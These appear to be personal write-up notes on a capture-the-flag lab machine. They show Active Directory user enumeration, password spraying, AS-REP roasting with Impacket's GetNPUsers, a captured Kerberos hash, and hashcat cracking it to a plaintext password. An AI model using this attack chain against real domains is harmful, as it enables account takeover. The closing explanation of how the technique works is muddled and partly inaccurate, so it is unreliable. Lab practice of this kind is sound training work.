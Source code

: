 
rpcclient $> createdomuser netrunner
result was NT_STATUS_ACCESS_DENIED


compiled users down into users.txt
DefaultAccount
sebastien
lucinda
andy
mark
santi


crackmapexec smb 10.10.10.161 -u users.txt -p /usr/share/wordlists/rockyou.txt

no luck

look around the internet for other common tools
Impacket > GetNPUsers

python3 GetNPUsers.py 10.10.10.161

python3 GetNPUsers.py forest.htb.local/ -dc-ip 10.10.10.161
python3 GetNPUsers.py forest.local/ -dc-ip 10.10.10.161
win: python3 GetNPUsers.py htb.local/ -dc-ip 10.10.10.161

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2022-08-04 05:32:14.999391  2022-08-04 05:32:55.796298  0x410200 


win: python3 GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request

$krb5asrep$23$svc-alfresco@HTB.LOCAL:812cfb5454107edd34d5d8ef2023d2ae$5ca1cb5ff5f2f0ccb73b93d0ea0581fce80538e16266df11b1e0686bc63fc37ea3a84bd6348d33dc100704708aebb0b9bc561ceeec36f5048506032280e9246be125a386e781efde7bd00a6b79c1f4ae9ef344b82aeb84df54fe5f4194705e7dc1af27c005ef4bcf31a1b1eb92c08dac777cfe5f2d17a2f786ddd5444ba71672d5ca0e4e97a9fa493fafd4dbf1c0653dfed65b007d1669e2be3ddef5d918af3cc12eb497dea9c630d6ae0ed6db2e25c83dcfc3fe42f3240cbce0180cf3486c2eb2de2f844879ff247497ec5fa9d54ece0a9e244d2a32f2b2e72c5bbf2e2c1ee33e75277eec16

navigated to here
https://hashcat.net/wiki/doku.php?id=example_hashes
found that the hash type we're looking for is 18200

hashcat -m 18200 -a 0 forest_hash /usr/share/wordlists/rockyou.txt
Really naughty, but I had to use --force

Spat out: s3rvice

How does it work:
        This provides us with a hash. There isn't a password actually in the hash, instead it's a value thats salted with. If we can work out part of the data with a word list, looking fora  certain part is always the same, the password is correct.

        the GetNPUsers script is essentially searching for a bitwise value in "UserAccountControl" in the target AD. The paramters we need to perform this exploit are "UF_DONT_REQUIRE_PREAUTH" and "UF_ACCOUNTDISABLE".
